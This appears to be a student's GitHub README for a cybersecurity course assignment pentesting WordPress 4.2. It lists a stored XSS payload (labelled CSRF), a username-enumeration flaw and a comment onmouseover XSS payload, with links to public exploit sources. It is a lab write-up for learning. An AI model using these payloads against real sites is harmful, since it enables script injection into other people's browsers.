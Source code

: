# Cybersecurity_Week_7-8
Pentesting for Wordpress 4.2 for Cybersecurity Week 7 &amp; 8 Assignment

## **1.Persisten CSRF**    
-In reply/comment post: 
  `<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px AAAAAAAAAAAA...[64 KB]..AAA'></a>`


Vulnerability: CSRF  
Version: 4.2  
Source:[Code](https://www.exploit-db.com/exploits/36844)  
![Persisten CSRF](https://github.com/atsui4688/Cybersecurity_Week_7-8/blob/master/Persisten%20CSRF.gif)  

## **2.User Enumeration**  
-At the login page, WordPress version 4.2 will notify you if a username exists when you attempt to login  
Vulnerability: User Enumeration  
Version: 4.2  
![User Enumeration](https://github.com/atsui4688/Cybersecurity_Week_7-8/blob/master/User%20Enumeration.gif)  

## **3.Authenticated Shortcode Tags XSS**  
-In a comment/reply: `<a href = "XSS" onmouseover=alert(1) rel="nofollow">CLICK ME!</a>`  
-Hover over the link in the comment.
  
Vulnerability: XSS  
Version: 4.2  
Source:[Code](https://github.com/WordPress/WordPress/commit/f72b21af23da6b6d54208e5c1d65ececdaa109c8)  
![Authenticated Shortcode Tags XSS](https://github.com/atsui4688/Cybersecurity_Week_7-8/blob/master/Authenticated%20Shortcode%20Tags%20XSS.gif)    

## **Notes**  
The `rm -rf public` command does not work on Windows 10 for me
